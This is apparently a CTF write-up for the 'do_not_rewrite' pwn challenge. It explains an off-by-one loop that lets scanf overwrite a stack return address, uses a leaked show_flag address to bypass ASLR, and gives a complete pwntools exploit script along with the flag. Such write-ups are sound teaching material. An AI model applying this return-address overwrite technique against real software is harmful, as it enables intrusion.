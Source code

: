 https://ctftime.org/event/2377

# do_not_rewrite (pwn)

canaryにはかなーり気をつけないといけません

Be careful with the canary.

nc chal-lz56g6.wanictf.org 9004

## Analysis

We are given the address of `show_flag`. We can use this to compute the aslr base for the image.

We can see in the provided c code an off-by-one error:

```c
Ingredient ingredients[3];
    printf("hint: show_flag = %p\n", (void *)show_flag);

    for (int i = 0; i <= 3; i++) {
```

This means that the calls to `scanf` on the fourth loop will likely write to the regions of the stack containing the canary and the return address.

We can see that when attempting to read the name of the fourth ingredient that scanf will write to a return address on the stack:

```
0x56fba68b43c8 <main+171>    call   __isoc99_scanf@plt          <__isoc99_scanf@plt>
        format: 0x56fba68b505b ◂— 0x746e450000007325 /* '%s' */
        vararg: 0x7ffc6c0c29e8 —▸ 0x7c08d202a1ca (__libc_start_call_main+122) ◂— mov edi, eax
```

We can see the current return addresses like this:

```
pwndbg> retaddr
0x7ffc6c0c29e8 —▸ 0x7c08d202a1ca (__libc_start_call_main+122) ◂— mov edi, eax
0x7ffc6c0c2a88 —▸ 0x7c08d202a28b (__libc_start_main+139) ◂— mov r15, qword ptr [rip + 0x1d8cf6]
0x7ffc6c0c2ae8 —▸ 0x56fba68b4145 (_start+37) ◂— hlt 
```

Therefore we can simply write the address of `show_flag` here to jump there by providing this value instead of a name.

However, there is one minor adjustment to make. We cannot simply jump to the first instruction of the function instead the address if offset by `0x17` to be just before the `call` to `system`.

Lastly in order to prevent the other two calls to `scanf` from disturing the stack we supply a non-numerical value.

## Solution

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall", checksec=False)
context.binary = elf

p = remote("chal-lz56g6.wanictf.org", 9004)

p.readuntil(b"hint: show_flag = ")
leak = int(p.readline().decode(), 16)
elf.address = leak - elf.sym["show_flag"]
log.info(f"elf: 0x{elf.address:x}")

for i in range(3):
    p.sendlineafter(b": ", b"A")
    p.sendlineafter(b": ", b"1.1")
    p.sendlineafter(b": ", b"1.1")

p.sendlineafter(b": ", p64(elf.sym["show_flag"]+0x17))
p.sendlineafter(b": ", b"abc")
p.sendlineafter(b": ", b"efg")

p.interactive()
```

## Flag
`FLAG{B3_c4r3fu1_wh3n_using_th3_f0rm4t_sp3cifi3r_1f_in_sc4nf}`

smiley 2024/06/22
